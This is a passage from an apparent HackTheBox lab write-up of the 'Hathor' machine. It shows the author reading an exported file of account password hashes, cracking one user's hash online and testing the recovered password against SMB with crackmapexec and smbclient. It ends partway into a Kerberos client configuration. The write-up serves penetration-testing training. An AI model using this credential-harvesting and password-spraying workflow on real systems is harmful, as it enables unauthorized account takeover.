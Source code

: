 ```
              17 File(s)          3,672 bytes
               2 Dir(s)   9,254,928,384 bytes free

```

Looking at the most recent one, it’s got a hash for the BeatriceMill user:

```

c:\Get-bADpasswords\Accessible\CSVs>type exported_windcorp-09112022-160559.csv
type exported_windcorp-09112022-160559.csv
Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)
active;weak;regular;BeatriceMill;S-1-5-21-3783586571-2109290616-3725730865-5992;9cb01504ba0247ad5c6e08f7ccae7903;'leaked-passwords-v7'

```

### Crack Hash

Given that this hash is in common wordlists, it makes sense that I’ll find it on [crackstation](https://crackstation.net/):

![image-20221109131039749](https://0xdfimages.gitlab.io/img/image-20221109131039749.png)

”!!!!ilovegood17” is the password.

### Access SMB

#### NTLM Fails

Trying these creds with `crackmapexec` and `smbclient` both fail with the same error message:

```

oxdf@hacky$ crackmapexec smb hathor.windcorp.htb -u beatricemill -p '!!!!ilovegood17'
SMB         hathor.windcorp.htb 445    hathor.windcorp.htb [*]  x64 (name:hathor.windcorp.htb) (domain:hathor.windcorp.htb) (signing:True) (SMBv1:False)
SMB         hathor.windcorp.htb 445    hathor.windcorp.htb [-] hathor.windcorp.htb\beatricemill:!!!!ilovegood17 STATUS_NOT_SUPPORTED 

oxdf@hacky$ smbclient -L //10.10.11.147 -U windcorp.htb\\BeatriceMill                            
Enter WINDCORP.HTB\BeatriceMill's password:
session setup failed: NT_STATUS_NOT_SUPPORTED 

```

This is the error message that comes back when NTLM authentication is disabled.

#### Kerberos Configuration

I’ll update my `/etc/krb5.conf` file with this domain:

```

[libdefaults]   
    	default_realm = WINDCORP.HTB
        fcc-mit-ticketflags = true

[realms]
        WINDCORP.HTB = {
                kdc = HATHOR.WINDCORP.HTB
                admin_server = HATHOR.WINDCORP.HTB
        }

```

